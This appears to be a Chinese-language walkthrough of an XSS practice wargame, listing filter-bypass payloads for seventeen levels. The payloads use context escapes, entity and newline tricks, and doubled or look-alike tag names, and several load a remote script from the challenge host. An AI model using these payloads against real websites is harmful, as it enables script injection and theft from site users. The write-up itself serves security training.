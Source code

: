 # xss

## 第 0 题

```javascript
<script>alert(1)<script>
```

## 第 1 题

```javascript
</textarea><script>alert(1)</script>
```

## 第 2 题

```javascript
// 也是提前结束掉
"><script>alert(1)</script>
```

## 第 3 题

```javascript
// 只过滤掉()没用
<script>alert`1`</script>

// 也可以不闭合
<script>alert`1`</script
```

## 第 4 题

```javascript
// svg 中是可以执行实体字符的
<svg><script>alert&#40;1&#41;</script

// parent 是调用父节点的 alert
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script> "
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script> "></iframe>
```

## 第 5 题

```javascript
// 逃离注释，两种注释都可以
<!-- --!>
<!-- -->
fdsfsd --!><script>alert(1)</script>
```

## 第 6 题

```javascript
// input 的image属性，src等于空会触发onerror，为了逃避正则使用了换行符
type=image src onerror
=alert(1)
```

## 第 7 题

```javascript
<svg onload=alert(1) /
```

## 第 8 题

```javascript
// 注意style后的空格，或者是/、换行都可以
</style ><script>alert(1)</script>
```

## 第 9 题

```javascript
https://www.baidu.com"></script><script>alert(1)//
```

## 第 10 题

```javascript
// 一个完整的url地址scheme:[//[user:password@]host[:port]][/]path[?query][#fragment]
// url中做转义也是会被请求的
https://www.baidu.com.jd.me/j.js
https://www.segmentfault.com@xss.haozi.me/j.js
```

## 第 11 题

```javascript
// 直接写alert肯定是废掉了，但url是不区分大小写的，注意最后有个空格
<script src="https://xss.haozi.me/j.js"></script> 
```

## 第 12 题

```javascript
<scscriptript src="https://xss.haozi.me/j.js"></scscriptript>
```

## 第 13 题

```javascript
// js里面可以使用html的注释，注意第一行是空的

alert(1)
-->
```

## 第 14 题

```javascript
// ſ 是 s的另一种写法
<ſcript src="https://xss.haozi.me/j.js"></ſcript>
```

## 第 15 题

```javascript
// ; 也可以换成是逗号或换行符
');alert(1)//
```

## 第 16 题

```javascript
alert(1)

// 建议写法
try{
    window.data = JSON.parse('\bfdfd\b');
} catch(e) {
    // 数据出错兜底
    window.data = {};
}
```

## 第 17 题

```javascript
// 无解
```
